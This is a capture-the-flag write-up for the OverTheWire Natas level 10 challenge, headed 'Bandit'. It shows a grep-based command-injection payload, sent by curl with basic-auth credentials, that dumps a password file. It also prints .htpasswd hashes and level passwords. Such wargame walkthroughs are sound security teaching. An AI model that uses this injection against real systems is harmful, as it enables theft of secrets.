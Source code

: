 # BANDIT LEVEL 10

```
http://overthewire.org/wargames/natas/natas10.html
```

```
Username: natas10
Password: nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
URL:      http://natas10.natas.labs.overthewire.org
```

<img src='index.jpg' width=500px>

### SOLUTION

In this version of the dictionary grep app, we are warned that "For security
reasons, we now filter on certain characters". Let's examine the source..

```
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```

We see the check with `preg_match()` function against the `;`, `|` and `&`
characters to prevent us from terminating commands and appending our own in the
call to `passthru()`..  so we need to find a way to work with the `grep`
command to dump the contents of the password file.

In the previous level, we tried feeding the `grep` command the pattern `.*` to
dump the entire contents of `dictionary.txt`. What if we use the same command,
but instead use it to dump our password file by providing the input
`.* /etc/natas_webpass/natas11`? We can append a `#` at the end to mask out the
trailing `dictionary.txt` to avoid dumping that file as well by rendering it a
comment. So our `passthru()` should become..

```
  passthru("grep -i .* /etc/natas_webpass/natas11 # dictionary.txt");
```

```
$ curl 'http://natas10.natas.labs.overthewire.org/?needle=.*+%2Fetc%2Fnatas_webpass%2Fnatas11+%23&submit=Search' -H 'Authorization: Basic bmF0YXMxMDpuT3BwMWlnUUFrVXphSTFHVVVqem4xYkZWajd4Q056dQ=='
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas10", "pass": "nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu" };</script></head>
<body>
<h1>natas10</h1>
<div id="content">

For security reasons, we now filter on certain characters<br/><br/>
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
.htaccess:AuthType Basic
.htaccess: AuthName "Authentication required"
.htaccess: AuthUserFile /var/www/natas/natas10//.htpasswd
.htaccess: require valid-user
.htpasswd:natas10:$1$XOXwo/z0$K/6kBzbw4cQ5exEWpW5OV0
.htpasswd:natas10:$1$mRklUuvs$D4FovAtQ6y2mb5vXLAy.P/
.htpasswd:natas10:$1$SpbdWYWN$qM554rKY7WrlXF5P6ErYN/
/etc/natas_webpass/natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```
